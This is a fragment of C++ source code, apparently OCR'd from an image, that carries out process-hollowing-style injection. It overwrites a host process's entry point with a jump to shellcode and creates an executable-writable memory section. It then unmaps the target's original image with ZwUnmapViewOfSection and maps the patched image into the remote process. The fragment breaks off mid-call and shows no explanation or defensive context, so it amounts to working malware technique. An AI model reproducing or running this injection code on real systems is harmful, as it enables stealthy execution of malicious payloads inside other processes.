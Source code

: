 ```cpp 

    std::cout << "[!]Original entry point : 0x" << std::hex << hostProcess->imageBaseAddress + entryPoint << std::endl;

    memset(processImage + entryPoint, 0x90, 5);

    DWORD processEntry = hostProcess->imageBaseAddress + entryPoint;

    DWORD relativeAddr = (((DWORD)shellcodeAddress - processEntry) - 5);

    *((BYTE*)processImage + entryPoint) = 0xe9; // jmp
    *(uintptr_t*)((uintptr_t)processImage + entryPoint + 1) = relativeAddr; // address

    LARGE_INTEGER sectionSize = { sizeOfImage };
    HANDLE sectionHandle = NULL;
    PVOID sectionAddress = NULL;

    if (fNtCreateSection(
        &sectionHandle, 
        SECTION_ALL_ACCESS, 
        NULL, 
        (PLARGE_INTEGER)&sectionSize, 
        PAGE_EXECUTE_READWRITE,
        SEC_COMMIT, NULL) != STATUS_SUCCESS)
    {
        std::cout << "[!] create section failed" << std::endl;
        return NULL;
    }

    if (fNtMapViewOfSection(
        sectionHandle, 
        GetCurrentProcess(), 
        &sectionAddress, 
        NULL, NULL, NULL, 
        &bytesRead, 2, NULL, 
        PAGE_EXECUTE_READWRITE) != STATUS_SUCCESS)
    {
        std::cout << "[!] create section failed" << std::endl;
        return NULL;
    }

    std::cout << "[!]replacing patched process image at 0x" << std::hex << hostProcess->imageBaseAddress << std::endl;

    memcpy(sectionAddress, processImage, sizeOfImage);
    sectionAddress = (PVOID)hostProcess->imageBaseAddress;

    if (fZwUnmapViewOfSection(
        hostProcess->processHandle, 
        sectionAddress) != STATUS_SUCCESS)
    {
        std::cout << "[!] unmapping failed" << std::endl;
        return NULL;
    }

    if (fNtMapViewOfSection(
        sectionHandle, 
        hostProcess->processHandle, 
        &sectionAddress, 
        NULL, NULL, NULL,
        &bytesRead, 
        2, NULL, 
        PAGE_EXECUTE_READWRITE) != STATUS_SUCCESS)
```